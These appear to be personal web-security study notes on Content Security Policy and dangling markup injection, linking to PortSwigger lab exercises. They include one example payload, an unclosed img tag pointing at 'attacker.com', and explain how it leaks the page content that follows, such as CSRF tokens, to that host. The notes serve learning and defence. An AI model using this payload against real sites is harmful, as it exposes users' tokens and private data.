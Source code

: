 index()  
jQuery.parseHTML()  
$.parseHTML()`

# COntent Security Policy
## what is CSP
- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. 
- it works by restricting the resources(i.e scripts and images)
- TO enable `CSP` a response needs to include HTTP response header called `Contet-Security-Policy` with value containing the policy. the policy consists of one or more directive, separated by semicolons.

## mitigating XSS attack using CSP
`CSRF+ XSS` example:
[lab scenario](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)


# Dangling Markup Injection
## what is Dangling Markup Injection
- it is a technique for capturing data cross-domain in situation where a full XSS attack isn't possible.
- if normal Xss isn't possible due to input filters or CSP or other Obstacles here it might still be possible to deliver a `dangling markup injection` attack using a payload like the following
```js
"><img src='//attacker.com?
```
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
- The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.
`Example labs `
[lab1](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
[lab2](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)

# [prevention](https://portswigger.net/web-security/cross-site-scripting/preventing)



